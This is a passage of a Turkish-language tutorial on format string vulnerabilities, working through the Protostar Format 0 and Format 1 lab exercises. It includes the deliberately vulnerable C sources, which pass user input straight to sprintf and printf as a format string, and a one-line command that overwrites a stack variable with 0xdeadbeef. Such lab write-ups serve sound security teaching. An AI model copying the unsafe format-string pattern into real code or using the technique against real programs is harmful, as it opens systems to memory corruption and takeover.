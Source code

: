 Burada printf çalışmaya başladığında bufferdan, daha doğrusu verilen textin başından ekrana yazmaya başlıyor. Bu stringin adresi de pointer olarak return adresinin hemen altında bulunuyor. Herhangi bir format spesifier'a geldiğinde ise o format spesifier ne tipte veri okuyacak ise o miktarda veriyi hemen alttan yani format string pointerin altından çekmeye başlıyor. Bu olaylar tabiki normal senaryoda böyle olmakta ancak eğer biz herhangi bir argüman pushlamadan(i  ve str gibi) sadece format spesifier verirsek ne olur? Stackden veri okumaya başlarız ve ileride göreceğimiz üzere veri yazma gibi işlemler de yapacağız. İlk örnek ile başlayalım.
## Format 0
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
Burada main fonksiyonu verdiğimiz argüman ile vuln fonksiyonunu çağırmış ve içeride 64 bytelık buffer ve integer tipinde target tanımlamış. Ardından sprintf ile buffer ve string içeriğini ekrana basıyor. Bizden istediği ise target'ı deadbeef yapmak. Aslında bu aşamanın bufferoverflow sorusundan pek bi farkı yok. Biz buffer'ı doldurduktan sonra kendisinden önce target tanımlandığı için string değişkenine verdiğimiz değer target'ın üzerine yazmış olacak.Deneyelim:
```bash
user@protostar:/opt/protostar/bin$ ./format0 $(python -c 'print "A"*64 + "\xef\xbe\xad\xde"')
you have hit the target correctly :)
```
Evet beklenen şekilde işlem gerçekleşti ve bu aşamayı geçmiş olduk.

## Format 1
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}
```